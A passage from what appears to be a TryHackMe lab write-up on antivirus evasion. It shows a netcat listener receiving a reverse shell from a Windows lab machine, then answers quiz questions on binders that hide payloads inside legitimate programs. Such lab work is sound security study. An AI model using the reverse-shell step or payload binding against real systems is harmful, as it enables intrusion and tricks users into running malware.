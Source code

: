 ![Av Check](/images/thm/avevasionshellcode/avevasionshellcode_26.png)
_Av Check_

We can now prepare a listener and try to get a reverse shell :

```console
root@ip-10-10-8-119:~/Desktop# nc -lnvp 7478
Listening on [0.0.0.0] (family 0, port 7478)
Connection from 10.10.142.2 51412 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\App>whoami
whoami
av-evasion-pc\av-victim

```
{: .nolineno }

No Answer.

## TASK 10 : Binders

### Will a binder help with bypassing AV solutions? (yea/nay) 

    "While not an AV bypass method, binders are also important when designing a malicious payload to be distributed to end users. A binder is a program that merges two (or more) executables into a single one. It is often used when you want to distribute your payload hidden inside another known program to fool users into believing they are executing a different program."

Answer : NAY

### Can a binder be used to make a payload appear as a legitimate executable? (yea/nay)
